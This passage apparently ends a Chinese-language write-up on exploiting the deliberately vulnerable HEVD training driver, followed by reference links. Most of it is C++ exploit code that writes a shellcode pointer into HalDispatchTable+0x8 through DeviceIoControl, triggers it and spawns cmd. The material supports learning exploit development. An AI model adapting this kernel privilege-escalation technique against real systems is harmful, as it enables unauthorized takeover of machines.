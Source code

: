 ```cpp
    if (addr == NULL)
    {
        std::cout << "[!] VirtualAlloc failed" << std::endl;
        system("pause");

        return -1;
    }

    RtlCopyMemory(addr, shellcode, sizeof(shellcode));
    ULONG64* ptrShellcode = (ULONG64 *)&addr;

    std::cout << "[*] shecllode addr: 0x" << std::hex << addr << std::endl;

    ULONG64 chBuffer[2] = { 0 };

    chBuffer[0] = (ULONG64)ptrShellcode;
    chBuffer[1] = (ULONG64)(HalDispatchTable + 0x8);

    DWORD size_returned = 0;

    DeviceIoControl(dev, 0x22200B, chBuffer, 0x10, NULL, 0, &size_returned, NULL);
    /*
    0: kd> dq 0xfffff80003fe2cf0
    fffff800`03fe2cf0  00000000`00000004 00000000`000e0000
    fffff800`03fe2d00  fffff800`04415470 fffff800`041aa8a0
    */
    CloseHandle(dev);

    TriggerShellcode();

    system("start cmd");
    system("pause");

    return 0;
}
```

## 参考

> https://macchiato.ink/hst/bypassav/Windows_Kernel_GetFunction/
> https://h0mbre.github.io/HEVD_AbitraryWrite_64bit
> https://www.anquanke.com/post/id/246289
